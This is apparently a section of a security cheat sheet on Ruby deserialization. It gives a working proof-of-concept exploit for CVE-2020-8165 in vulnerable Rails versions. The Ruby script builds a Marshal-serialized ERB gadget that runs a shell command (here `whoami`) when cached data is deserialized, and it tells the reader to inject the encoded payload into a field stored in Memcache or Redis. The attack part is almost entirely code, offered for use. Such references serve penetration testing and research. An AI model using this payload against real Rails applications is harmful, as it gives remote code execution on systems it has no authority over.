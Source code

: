 # Ruby

### CVE-2020-8165

Exploitable in Rails &lt; 5.2.4.3, Rails &lt; 6.0.3.1 \(install with `apt install ruby-railties`\)  when Memcache/Redis is used with raw: true. Let the following payload generate the data, then use it on a field that is going to Memcache/Redis:

```ruby
require 'erb'
require 'rails/all'

remote_code = <<-RUBY
`whoami`
RUBY

erb = ERB.allocate
erb.instance_variable_set(:@src, remote_code)
erb.instance_variable_set(:@lineno, 0)
deprecation = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
exploit_data = Marshal.dump(deprecation)
puts URI.encode_www_form(payload: exploit_data)
```

### Interesting Reads

* [https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html)

